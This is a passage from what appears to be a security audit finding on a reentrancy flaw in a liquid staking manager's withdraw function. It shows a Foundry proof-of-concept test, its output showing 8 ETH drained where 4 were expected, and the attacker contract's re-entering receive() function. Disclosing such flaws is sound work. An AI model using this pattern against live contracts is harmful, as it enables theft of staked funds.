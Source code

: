 we run the test:

```solidity
forge test -vv --match testWithdraw_Reentrancy_POC
```

and the result is

```solidity
Running 1 test for test/foundry/LiquidStakingManager.t.sol:LiquidStakingManagerTests
[PASS] testWithdraw_Reentrancy_POC() (gas: 578021)
Logs:
  smart contract registered as a EOA representative
  true
  balance after the withdraw, expected 4 ETH, but has 8 ETH
  8000000000000000000

Test result: ok. 1 passed; 0 failed; finished in 14.85ms
```

the function call is 

pass.withdraw("publicKeys1"), which calls

```solidity
function withdraw(bytes calldata _blsPublicKeyOfKnot) external {
	IManager(manager).withdrawETHForKnot(address(this), _blsPublicKeyOfKnot);
}
```

which trigger:

```solidity
// refund 4 ether from smart wallet to node runner's EOA
IOwnableSmartWallet(associatedSmartWallet).rawExecute(
	_recipient,
	"",
	4 ether
);
```

which triggers reentrancy to withdraw the fund again before the public key is banned.

```solidity
receive() external payable {
	if(!state) {
		state = true;
		this.withdraw("publicKeys1");
	}
}
```


## Tools Used

Manual Review

## Recommended Mitigation Steps
